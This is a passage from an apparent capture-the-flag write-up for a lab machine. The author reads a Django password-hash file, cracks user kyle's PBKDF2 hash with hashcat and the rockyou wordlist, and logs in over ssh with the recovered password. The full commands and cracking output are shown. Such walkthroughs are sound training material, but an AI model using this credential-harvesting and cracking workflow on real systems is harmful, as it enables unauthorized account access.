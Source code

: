 Now we are able to read the `django_hashes` file which contains the hash for the user kyle.

```
www-data@writer:~/writer2_project$ cat django_hashes
username        password
kyle    pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=
```

Hashcat cracks it quite quickly and we can log in over ssh as kyle and grab the user flag.

```
$ hashcat -m 10000 -O hash rockyou.txt
hashcat (v6.2.3) starting
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Django (PBKDF2-SHA256)
Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
Time.Started.....: Sat Jul 31 22:47:14 2021 (18 secs)
Time.Estimated...: Sat Jul 31 22:47:32 2021 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2249 H/s (8.90ms) @ Accel:4 Loops:128 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344387 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 0/14344387 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:259968-259999
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> louis123
Hardware.Mon.#1..: Temp: 57c Fan: 33% Util:100% Core:1974MHz Mem:4006MHz Bus:16

Started: Sat Jul 31 22:47:03 2021
Stopped: Sat Jul 31 22:47:33 2021
```

```
$ ssh kyle@10.129.182.107
kyle@10.129.182.107's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 31 Jul 23:25:49 UTC 2021

  System load:           0.03
  Usage of /:            64.6% of 6.82GB
  Memory usage:          36%
  Swap usage:            0%
  Processes:             267
  Users logged in:       2
  IPv4 address for eth0: 10.129.182.107
  IPv6 address for eth0: dead:beef::250:56ff:feb9:8bc6


0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


```